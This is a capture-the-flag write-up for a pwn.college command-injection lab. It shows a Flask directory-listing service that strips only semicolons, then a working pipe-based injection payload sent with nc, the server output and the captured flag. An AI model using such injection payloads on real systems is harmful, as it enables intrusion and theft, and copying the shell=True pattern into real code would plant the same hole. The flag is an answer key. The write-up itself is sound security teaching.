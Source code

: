 # 🧠 Challenge Name: CMDi-2

## 🗂 Category: Web Exploitation

## 📝 Description:
You are provided with a vulnerable Flask-based web server that lists files in a directory. The application attempts to sanitize input by removing semicolons.

Your goal is to exploit command injection and retrieve the flag.

---

## 📂 Source Code:

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/checkpoint", methods=["GET"])
def challenge():
    arg = flask.request.args.get("folder", "/challenge").replace(";", "")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/checkpoint"><input type=text name=folder><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```
---

## Vulnerability:

- Input is inserted directly into the shell command.
- Only semicolons are stripped (.replace(";", "")).
- You can bypass it using a pipe (|) or other shell chaining operators.

---

## Exploit Attempt:

```bash
hacker@web-security~cmdi-2:~$ printf "GET /checkpoint?folder=/+|cat+/flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Result:
```bash
<html><body>
Welcome to the dirlister service! Please choose a directory to list the files of:
<form action="/checkpoint"><input type=text name=folder><input type=submit value=Submit></form>
<hr>
<b>Output of ls -l / |cat /flag:</b><br>
<pre>pwn.college{YxL-hpFWeJ6Y3JMqKN2NnyPcKGn.QX0YTN2wSM0IzMyEzW}
</pre>
</body></html>
```

---

## Flag:
```bash
pwn.college{YxL-hpFWeJ6Y3JMqKN2NnyPcKGn.QX0YTN2wSM0IzMyEzW}
```


